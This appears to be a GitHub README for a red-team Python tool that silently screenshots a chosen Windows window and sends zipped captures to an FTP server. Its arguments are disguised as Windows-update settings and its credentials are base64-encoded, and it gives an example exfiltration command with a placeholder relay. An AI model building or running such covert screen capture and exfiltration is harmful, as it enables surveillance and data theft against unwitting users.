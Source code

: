 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

### Important Note: Encoding Information in Base64

Before using GuardPixelOps, please ensure that you encode the following information in Base64 format for the respective command-line arguments:

- `--winupdate`: Microsoft Relay Information
- `--wintoken`: Windows Token
- `--winversion`: Windows Version

Here's an example of how to encode information in Base64 using Python:

```bash
echo -n "your_information_here" | base64
```
Here's an example of how to encode information in Base64 using Powershell:

```bash
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("your_information_here"))
```

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾
